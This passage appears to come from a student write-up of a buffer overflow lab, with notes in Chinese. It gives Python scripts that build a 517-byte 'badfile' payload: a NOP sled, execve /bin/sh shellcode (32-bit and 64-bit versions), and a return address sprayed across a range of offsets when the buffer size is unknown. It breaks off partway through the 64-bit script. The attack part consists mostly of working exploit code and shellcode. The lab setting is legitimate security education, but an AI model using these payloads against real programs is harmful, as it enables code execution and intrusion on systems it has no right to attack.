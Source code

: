 ## Task4: Launching Attack without Knowing Buffer Size (Level 2)

不知道buffer_size，不好确定offset，已知buffer范围为100-200，所以就把100-200上都放上返回地址，start取517-len(shell_code)，放在最后面，ret取最前面的值buffer[0]+200+8

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 490             # Change this number ,517 - len(shell_code)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffca58+8+200           # Change this number


L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(100, 204, 4):
    content[offset:offset + 4] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

### Task 5: Launching Attack on 64-bit Program (Level 3)

64位攻击，地址高位存放0000，strcpy会自动停止，所以把shellcode放在ret位置前面，即地址较小的地方

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
```